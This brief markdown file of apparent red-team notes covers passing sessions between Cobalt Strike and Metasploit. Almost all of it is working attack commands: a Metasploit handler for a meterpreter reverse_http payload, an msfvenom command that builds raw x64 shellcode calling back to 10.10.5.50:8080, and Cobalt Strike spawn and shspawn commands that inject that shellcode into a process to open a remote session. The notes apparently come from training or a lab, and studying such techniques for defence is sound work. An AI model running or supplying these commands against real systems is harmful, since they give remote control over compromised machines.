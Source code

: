 # Session Passing Notes

The spawn command will spawn an x86 or x64 process and inject shellcode for the specified listener into it.
```
spawn x64 http
```

**Foreign Listener**

using msf
```
sudo msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST ens5
set LPORT 8080
run
```

In CS
- Create a new Foreign HTTP listener with same host and port as above

Now we can use spawn, jump, or elevate with this listener

**Spawn and Inject**

in msf with the above 
```
set payload windows/x64/meterpreter_reverse_http
set LHOST 10.10.5.50
set LPORT 8080
run
```

Make msfvenom payload
```
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.50 LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin
```

In CS beacon, this will create a callback for msf
```
shspawn x64 C:\Payloads\msf_http_x64.bin
```
